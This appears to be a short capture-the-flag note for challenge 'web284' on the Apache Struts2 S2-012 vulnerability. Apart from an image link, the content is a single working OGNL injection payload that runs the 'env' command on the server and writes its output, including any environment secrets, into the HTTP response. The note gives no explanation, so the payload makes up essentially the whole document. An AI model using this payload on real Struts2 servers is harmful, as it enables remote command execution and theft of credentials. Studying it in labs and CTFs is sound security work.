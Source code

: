 # web284

struts2漏洞 S2-012

![](vx_images/347491436141517.png)

```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"env"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```